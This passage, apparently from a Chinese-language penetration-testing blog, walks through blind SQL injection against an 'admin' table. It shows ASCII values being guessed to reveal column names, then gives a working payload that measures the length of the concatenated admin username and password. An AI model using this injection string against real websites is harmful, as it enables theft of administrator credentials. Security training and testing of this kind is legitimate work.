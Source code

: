 ![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1615367399500.png)

> 1 > 97 --a<br>
> 2 > 100 --d<br>
> 3 > 109 --m<br>
> 4 > 105 --i<br>
> 5 > 110 --n<br>
> 6 > 95 --_<br>
> 7 > 105 --i<br>
> 8 > 100 --d<br>
> 第一个字段为：admin_id

接下来就是猜解剩余的 2 个字段，方法和上面一样

猜解出来的三个字段分别为：`admin_id，admin_username，admin_password`

对字段内容进行猜解，先判断字段内容长度
`t%' and (select length(concat(admin_username,0x5e,admin_password)) from admin)=38 %23`<br>
![enter description here](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1615368535869.png)
